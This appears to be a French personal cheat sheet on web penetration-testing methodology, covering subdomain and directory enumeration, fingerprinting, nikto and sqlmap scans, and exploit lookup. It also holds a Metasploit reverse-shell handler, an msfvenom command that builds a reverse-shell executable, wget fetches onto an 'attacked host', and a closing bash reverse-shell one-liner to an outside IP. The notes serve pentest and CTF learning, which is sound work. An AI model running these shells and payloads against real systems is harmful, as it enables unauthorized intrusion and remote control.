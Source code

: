 ```yaml
---
title:  "Pentest Web"
tag: "Méthodologie"
---
```


Ces notes sont destinées à répertorier une méthodologie pour du pentest web.

# Collecte d'informations

## Identification de sous domaines
```console
Misoko@home[/home]$ sublist3r -d google.com
Misoko@home[/home]$ gobuster dns -d google.com -w ~/wordlists/subdomains.txt -i
```
On peut utiliser également https://crt.sh/ avec "%.domain.com"

### Ajout de l'IP dans le /etc/hosts
```console
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
```

## Recherche / Enumération de dossiers et fichiers
Une fois le périmètre défini, une utilisation d'outils de bruteforce de répertoire peut permettre d'identifier les fichiers et dossiers du domaine de périmètre. Une fois les résultats obtenus, l'identification de la technologie utilisée peut être faite.

### [Gobuster](https://github.com/OJ/gobuster)
```console
Misoko@home[/home]$ gobuster dir -u http://@IP --wordlist /usr/share/dirb/wordlists/common.txt
```

On peut accéder ici à de nombreuses listes avec [SecLists](https://github.com/danielmiessler/SecLists).

## Identifier les Technologies utilisées

### [wappalyzer](https://www.wappalyzer.com/)
Cet outil permet de se faire une première idée des technologies liés à un nom de domaine, directement depuis l'interface web.

### [similartech](https://www.similartech.com/)
Un autre outil dans le même état d'esprit.

## whatweb
```console
Misoko@home[/home]$ whatweb domain.com -v -a 3
```

## Utilisation de nmap
```console
Misoko@home[/home]$ sudo nmap $IP
```

- \-sV Tente de déterminer la version du service fonctionnant sur le port
- \-O Empreinte d'Os

# Scanners Automatique
### [nikto](https://github.com/sullo/nikto)
Nikto est un scanner de serveur web (configuration, version de serveurs obsolète, options HTTP du serveur, identification du serveur web, vulnérabilités, etc). Un [guide](https://www.freecodecamp.org/news/an-introduction-to-web-server-scanning-with-nikto/) pratique pour débuter.

```console
Misoko@home[/home]$ nikto -h scanme.nmap.org -o scan.txt
Misoko@home[/home]$ nikto -h domains.txt
Misoko@home[/home]$ nikto -h https://nmap.org -ssl
Misoko@home[/home]$ nikto -h @IP
```


nikto, whatweb, wapiti, w3af, zaproxy, nuclei
## cmsScan

# HTTP Headers 
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/

# Recherche d'exploits

```console
Misoko@home[/home]$ searchsploit apache 2.4.41 
```

Recherche google
```console
frameworkName exploit/cve/metasploit
framework cve /metasploit
```

# Injection SQL
### SQLmap
Après avoir trouvé un lien où il y a une injection du type : http://vulnWebsite.com/article.php?id=2
```console
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 --dbs
Misoko@home[/home]$ sqlmap -u http://vulnWebsite.com/article.php?id=2 -D databaseName
```

# Utilisation metasploit

```console
$ msfconsole
$ use exploit/multi/handler
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.5
msf6 exploit(multi/handler) > set lport 1234
msf6 exploit(multi/handler) > exploit
```

## Creation de shell
```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > Desktop/stageless_reverse_tcp_x86_4444_2.exe
```

# Echange de fichier :
```console
Misoko@home[/home]$ python3 -m http.server
```
et de l'autre côté :
```console
attackedHost@home[/home]$ wget http://@IP/file
```


### Deobfuscation
- Javascript [de4js](https://lelinhtinh.github.io/de4js/)

### Decodage 
- Base64 : `echo U1oyN0ktUTVaOVMtREtOSVgtUDNDU00= | base64 -d`

<!--
À checker

https://marduc812.com/2019/08/18/web-application-testing-methodology/

https://marduc812.com/checklist/web.html
  -->




  bash -i >& /dev/tcp/10.18.17.129/4444 0>&1